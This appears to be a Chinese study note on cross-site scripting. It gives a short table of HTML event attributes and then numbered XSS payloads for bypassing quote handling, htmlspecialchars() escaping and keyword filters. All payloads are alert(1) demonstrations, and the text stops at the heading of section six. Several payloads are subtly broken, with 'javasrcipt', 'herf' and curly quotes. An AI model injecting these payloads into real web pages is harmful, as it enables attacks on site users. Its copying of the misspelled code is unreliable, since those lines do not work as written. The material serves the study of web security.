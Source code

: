 ### 5、事件介绍

```html
onerror	script	在错误发生时运行的脚本。
onhaschange	script	当文档已改变时运行的脚本。
onload	script	页面结束加载之后触发。
onclick	script	元素上发生鼠标点击时触发。
onscroll	script	当元素滚动条被滚动时运行的脚本。
onfocus	script	当元素获得焦点时运行的脚本。
```

更多内容查看[HTML 事件参考手册 (w3school.com.cn)](https://www.w3school.com.cn/tags/html_ref_eventattributes.asp)

## 1、最简单的`xss`代码执行

```javascript
<script> alert(1) </script>
```

## 2、双引号`xss`绕过

通过查看网页代码发现

```javascript
"><script>alert(1)</script>
```

## 3、单引号闭合`xss`绕过加事件绕过`htmlspecialchars()`转义

```javascript
'  onclick='alert(1)'
或者
'  onclick='javasrcipt:alert(1)'
```

## 4、双引号闭合`xss`绕过加事件绕过`htmlspecialchars()`转义

```javascript
“  onclick='alert(1)'
或者
”  onclick='javasrcipt:alert(1)'
```

## 5、双引号闭合处理，on和script 被过滤

使用a标签进行绕过处理,然后点击xss

```javascript
"><a herf='javascript:alert(1)'>xss</a>
```

## 6、双引号闭合处理，on和script 被过滤，href过滤（大小写绕过）
